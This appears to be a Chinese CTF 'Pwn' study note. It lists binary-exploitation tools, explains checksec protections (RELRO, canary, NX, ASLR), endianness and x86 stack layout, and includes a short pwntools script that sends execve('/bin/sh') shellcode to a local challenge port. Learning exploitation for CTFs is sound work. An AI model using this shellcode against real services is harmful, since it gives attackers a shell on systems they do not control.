

# Pwn

### Pwn工具
???+ abstract "tools"

    - 脚本编写
        * pwntools：写exp和poc的利器
    - 调试工具
        * GDB: Linux调试中必要用到的
        * gdb-peda、pwndbg、gef: GDB调试插件
        * windbg: windows环境    
    - 程序信息
        * checksec：可以很方便的知道elf程序的安全性和程序的运行平台
        * objdump ：可以很快的知道elf程序中的关键信息
        * readelf：可以很快的知道elf程序中的关键信息
        * file：查看文件类型
    - 反汇编 
        * IDA pro：反汇编工具
        * ghidra：反汇编工具，冷门架构
    - libc相关     
        * libc-databases：可以通过泄露的libc的某个函数地址查出远程系统是用的哪个libc版本
        * ROPgadget：强大的rop利用工具
        * one_gadget：可以快速的寻找libc中的调用exec('/bin/sh')的位置
     
    - 需要注意gdb中的栈空间和直接运行是不一样的，即使关闭了ASLR

### Shellcode
* `checksec`检测程序防御方式
* pwntools编写shellcode攻击脚本
* `cyclic 10`生成大小为10字符串
* [shellcode exp](http://shell-storm.org/shellcode/)
???+ abstract "shellcode"

    === "Python"

        ``` python linenums="1"
        from pwn import *

        context.update(arch='i386', os='linux')
        # context.log_level = 'debug'
        r = remote('0.0.0.0', 11003)

        shellcode = asm('''
                mov edx, 0
                mov ecx, 0
                push 0x68732f
                push 0x6e69622f
                mov ebx, esp
                mov eax, 0xb
                int 0x80
        ''')
        r.send(shellcode)
        r.interactive()
        ```

### Defense
* 用`checksec`检测二进制文件防御手段

???+ abstract "Defense"

    ```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)    
    ```


#### RELRO
* 开启说明got表不可修改

#### Canary
* 堆栈金丝雀，在函数调用时写入cookie，在返回时检查

#### NX
* 栈不可执行

#### ASLR
* 地址空间随机化ASLR(address space layout randomization)
* 即PIE
* 0 - 表示关闭进程地址空间随机化
* 1 - 表示将mmap的基址，stack和vdso页面随机化
* 2 - 表示在1的基础上增加堆（heap）的随机化


### x86

#### x86寄存器
??? abstract "x86 register"

    
    


#### x86函数调用栈
* 我们总是可以看到，如果按处理器位长寻址，那么地址是+4或者+8，一个地址包含了4字节或8字节的数据（32bit或64bit）
* 如果按字节寻址，那么地址总是+1，一个地址包含了1字节的数据（8bit），可见无论处理器位长为多少，一个地址所能代表的最小单位都是一字节
???+ info "字节序"

    * [wiki百科](https://zh.wikipedia.org/wiki/%E5%AD%97%E8%8A%82%E5%BA%8F)
    * 对于多字节处理器位长而言，字节序有大端小端之分，字节序指的是多字节编码中以字节为单位排布的顺序，即8bit为一组，字节内部的顺序是不变的
    * 因此将一个地址上的内容输出和将一个地址上的内容按字节增长顺序输出，小端法得到的结果是不一样的，大端法会得到相同的结果
    - 数`0x12345678`的32位补码表示`0001 0010 0011 0100 0101 0110 0111 1000`
        * 32bit大端法表示`12 34 56 78` 补码表示`0001 0010 0011 0100 0101 0110 0111 1000`
        * 32bit小端法表示`78 56 34 12` 补码表示`0111 1000 0101 0110 0011 0100 0001 0010`


    === "地址向右增长(易于理解,与上述解释匹配)"

        ```
        High
        Address       | 32bit 4Byte     |
                      +-----------------+
                      | 大端法           |
                      +-----------------+
        Address    => | 0x4 0x5 0x6 0x7 |                      
        0x00000004 => | 12  34  56  78  |
                      +-----------------+
                      | 小端法           |
                      +-----------------+
        Address    => | 0x4 0x5 0x6 0x7 |                      
        0x00000004 => | 78  56  34  12  |
                      +-----------------+
        Low           0------->>-------31
        Address
        ```

    === "地址向左增长(与寄存器和下述栈结构匹配)"

        ```
        High
        Address       | 32bit 4Byte     |
                      +-----------------+
                      | 大端法           |
                      +-----------------+
        Address    <= | 0x7 0x6 0x5 0x4 |                      
        0x00000004 => | 78  56  34  12  |
                      +-----------------+
                      | 小端法           |
                      +-----------------+
        Address    <= | 0x7 0x6 0x5 0x4 |                      
        0x00000004 => | 12  34  56  78  |
                      +-----------------+
        Low           31-------<<-------0
        Address
        ```

* 栈是从上到下增长的
* x86的函数参数储存在栈中，而x86-64前6个参数储存在寄存器中，剩下的储存在栈中
???+ abstract "x86的栈结构"

    === "x86"

        

    === "x86-64"

<!--     
    === "x86"

        ```
        High  Address | 32bit 4Byte     |
                      +-----------------+
                      |                 |
                      +-----------------+
                      | args #n         |
        ebp+4*(1+n) =>+-----------------+
                      | ......          |
                      +-----------------+
                      | args #2         |
                      +-----------------+
                      | args #1         |
              ebp+8 =>+-----------------+
                      | return address  |
              ebp+4 =>+-----------------+
                      | old ebp address |
              ebp   =>+-----------------+
                      | Callee saved reg|
              ebp-4 =>+-----------------+
                      | ...             |
              ebp-8 =>+-----------------+
                      | ...             |
                      +-----------------+
                      | return address  |
              esp =>  +-----------------+
                      | next stack frame|
                      +-----------------+
                      |                 |
        Low  Address  31-------<<-------0
        ```
        
    === "x86-64"

        ```
        High
        Address | 64bit 8Byte                       |
                +-----------------------------------+
                | args                              |
                +-----------------------------------+
                | return address                    |
                +-----------------------------------+
        rbp =>  | old ebp                           |
                +-----------------------------------+
        rbp-8 =>|                                   |
                +-----------------------------------+
                | local variables                   |
        Low     63----------------<<----------------0
        Address
        ``` -->


